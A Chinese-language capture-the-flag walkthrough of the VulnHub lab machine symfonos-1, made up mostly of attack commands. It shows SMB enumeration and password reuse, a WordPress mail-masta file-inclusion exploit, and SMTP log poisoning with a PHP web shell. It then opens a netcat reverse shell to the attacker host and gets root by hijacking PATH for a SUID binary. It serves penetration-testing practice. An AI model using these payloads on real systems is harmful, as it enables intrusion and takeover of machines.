 # symfonos-1

## 环境

虚拟机平台：VMware Workstation Pro

攻击机：Kali（IP：192.168.253.136）

靶机：symfonos-1（IP：192.168.253.143）

下载：https://www.vulnhub.com/entry/symfonos-1,322/

## Let's go

```
nmap -A 192.168.253.143
```

![](./img/symfonos1-01.png)

```
enum4linux 192.168.253.143
```

![](./img/symfonos1-02.png)

![](./img/symfonos1-03.png)

> **扫描发现可以匿名登录，并得到 'helios'**

```
smbclient //192.168.253.143/anonymous
```

![](./img/symfonos1-04.png)

```
cat attention.txt
```

![](./img/symfonos1-05.png)

> **查看获取到三个密码  'epidioko'  'qwerty'  'baseball'**

```
#发现helios共享可以使用密码'qwerty'登录
smbclient //192.168.253.143/helios -U=helios
```

![](./img/symfonos1-06.png)

```
cat todo.txt
```

![](./img/symfonos1-07.png)

```
#发现是WordPress网站
http://192.168.253.143/h3l105/
```

![](./img/symfonos1-08.png)

> **将主机添加到/etc/hosts**

![](./img/symfonos1-09.png)

![](./img/symfonos1-10.png)

```
wpscan --url http://symfonos.local/h3l105/
```

![](./img/symfonos1-11.png)

```
https://www.exploit-db.com/exploits/40290
```

![](./img/symfonos1-12.png)

```
http://symfonos.local/h3l105/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/etc/passwd
```

![](./img/symfonos1-13.png)

> **将一句话<?php system($_GET['cmd']); ?>写入SMTP日志，**

```
telnet 192.168.253.143 25
mail from:hello
rcpt to:helios
data
<?php system($_GET['cmd']); ?>
.
```

![](./img/symfonos1-14.png)

```
http://symfonos.local/h3l105/wp-content/plugins/mailmasta/inc/campaign/count_of_send.php?pl=/var/mail/helios&cmd=nc 192.168.253.136 4444 -e /bin/bash
nc -lp 4444
python -c 'import pty; pty.spawn("/bin/bash")'
```

![](./img/symfonos1-15.png)

```
find / -perm -u=s -type f 2>/dev/null
```

![](./img/symfonos1-16.png)

```
strings /opt/statuscheck
```

![](./img/symfonos1-17.png)

> **这里使用环境变量提权**

```
cd /tmp
echo "/bin/sh" > curl
chmod 777 curl
export PATH=/tmp:$PATH
```

![](./img/symfonos1-18.png)

```
/opt/statuscheck
cd /root
cat proof.txt
```

![](./img/symfonos1-19.png)
